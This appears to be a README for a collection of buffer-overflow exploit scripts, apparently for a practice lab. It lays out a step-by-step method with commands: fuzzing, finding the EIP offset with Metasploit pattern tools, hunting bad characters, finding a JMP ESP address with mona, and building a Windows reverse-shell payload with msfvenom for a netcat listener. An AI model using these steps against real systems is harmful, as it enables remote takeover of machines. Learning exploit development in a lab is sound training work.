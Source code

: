 # BOF
Buffer Overflow scripts to help with future Buffer Overflow adventures.

* Make sure to make these script executable for them to run.

## 1 - Spiking
* Use the trun.spk
	* trun can be replaced by other variables inside the program you're debugging.

## 2 - Fuzzing
* Use fuzz.py
	* Command variable is what you found from spiking
* Set IP/Port variable

## 3 - Find the Offset
* Create and offset from the value you got from fuzzing then change the valule after ```-l ``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000```
* Use the offset.py
	* Paste metasploit output in the offset variable
* To find the offset use the EIP value found in the python script and run ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337```
	* Change the value of -q to the EIP value
	* Make sure the ```-l``` is the same length as the original metasplot command.

## 4 - Overwrite the EIP
* Use eip.py
	* Change the 2003 in the shellcode to the offset value.
* EIP should read all 42. If there is a 41 in there your offset is wrong.

## 5 - Finding Bad Characters
* Use badchar.py
* In hex dump you should notice any characters that are out of sequencial order. Take not of them you need them when generating your shell code.

## 6 - Module Enumeration
* Download and install [mona modules](https://github.com/corelan/mona)
* Find the FFEF JSP ESP pointer using mona ```!mona find -s "\xff\xe4" -m essfunc.dll```
	* Replace essfunc.dll with mona results that doesnt have security.
* Use modules.py
	* replace the ```"\xaf\x11\x50\x62"``` in the codewith the return address you get from mona.
		* Remember little indian format and it might be backwards in hex when you input it.
* Set your breakpoint in your debugger

## 7 - Generating Shellcode
* Create payload with ```msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -f c -a x86 -b "\x00"```
	* __Input LHOST and LPORT__
	* Add all your badcharacters after ```-b``` flag
* Setup netcat listener
* Use shellcode.py
	* Input you msfvenom payload in the overflow variable in between the quotes. When copying the output of msfvenom dont include the last semicolon.
	* Change the ```2003``` to your offset at the EIP.
	* Change ```"\xaf\x11\x50\x62"``` to the return address you found in mona when enumerating the modules.